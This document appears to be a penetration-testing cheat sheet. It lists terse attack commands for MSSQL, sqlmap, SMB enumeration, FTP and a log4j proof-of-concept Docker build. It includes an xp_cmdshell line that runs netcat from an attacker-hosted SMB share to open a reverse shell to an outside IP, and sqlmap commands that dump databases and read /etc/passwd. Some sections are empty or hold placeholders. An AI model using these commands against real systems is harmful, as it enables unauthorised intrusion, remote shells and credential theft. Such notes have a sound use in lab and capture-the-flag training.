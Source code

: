 ## SQL on Windows:
mssqlclient.py "USERNAME"@"IP ADDRESS" --windows-auth
sqsh -U "USERNAME" -P "PASSWORD" -H "IP ADDRESS"
> Can try `enable_xp_cmdshell` to see if we can run commands on it
> If works we can get a shell using nc
```
smbserver.py -smb2support shareName $(pwd)
xp_cmdshell \\10.10.15.75\shareName\nc64.exe -e cmd.exe 10.10.15.75 443
```

## SQL from DB file:
sqlite3 "DATABASE FILE" 
Commands:
.help
.tables
select * from "TABLE"

## SQLMAP:
sqlmap -r request.txt -a --batch (request should have parameters like test:test for easy sql)
sqlmap -u 'URL' --forms --dump
sqlmap -r request.txt --batch --current-user
sqlmap -r request.txt --batch --file-read=/etc/passwd
sqlmap -r request.txt --batch --dbms mysql --threads 10 --file-read=/etc/passwd
sqlmap -r request.txt --batch --threads 10 --file-read=/etc/passwd

## SMB:
msfconsole:- "AUXILIARY/SCANNER/SMB/SMB_VERSION" *Use this to get SMB Version*
smbclinet -L /"IP" *To list the shares*
smbclient //"IP"/"SHARE" *To access the share*
smbclient //"IP"/"SHARE" -U "username" *To provide a username*
nmap --script smb-enum-users "IP" *To get usernames using nmap*

## SMB Server:
smbserver.py -smb2support -user "USERNAME" -password "PASSWORD" shareName $(pwd)
smbserver.py -smb2support shareName $(pwd)

## Zone Transfer:
dig axfr <> <>

## FTP:
Try the command "cd ..." to change directory *Maybe one of the directory is hidden in ...*
Always use the command "ls -lah" to check the files in FTP folder *Maybe one of them is hidden*

## NFS Mounts:


## Using DockerFile:
- Use this when working with `DockerFile`
```bash
docker build -t log4j-shell-poc .
```
